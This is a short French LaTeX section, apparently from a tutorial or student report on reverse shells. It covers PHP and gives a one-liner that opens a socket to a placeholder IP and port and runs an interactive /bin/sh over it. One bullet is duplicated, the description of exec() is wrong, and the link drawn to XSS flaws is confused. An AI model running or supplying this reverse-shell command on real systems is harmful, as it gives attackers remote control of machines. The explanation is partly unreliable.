  \textbf{PHP}\\

Le PHP est un langage de programmation Web couramment utilisé pour dialoguer avec la base de données ainsi que pour sécuriser les sites. A titre d'exemple, le HTML va permettre de créer un formulaire que l'utilisateur va remplir. Le PHP sera présent pour vérifier que toutes les conditions ont été respectées afin de valider le formulaire. On s'aperçoit donc que l'utilisateur communique directement avec le PHP. Il y donc des possibilités de réaliser des reverse-shell dans ce langage.\\
Nous pouvons tester le code PHP en localhost sur la \textbf{figure \ref{fig:phpreverse}}.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/PHP/php-reverse.PNG}
  \caption{PHP-reverse}
  \label{fig:phpreverse}
\end{figure}

Le code PHP est le suivant :
\setlstjava
\begin{lstlisting}
     php -r '\$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{lstlisting}

Regardons ensemble cette commande afin de la comprendre :

\begin{itemize}
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande
    \item 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande.
    \item'\$s=fsockopen("<IP>",<PORT>);' cette commande a pour but, à travers la variable \$s, d'ouvrir un socket grâce à la fonction fsockopen().
    \item 'exec ()' est une fonction PHP permettant d'écrire dans le cmd.
\end{itemize}

Il est donc assez facile de réaliser un reverse-shell en PHP si l'administrateur web n'a pas réaliser correctement son travail au niveau des failles XSS.\\


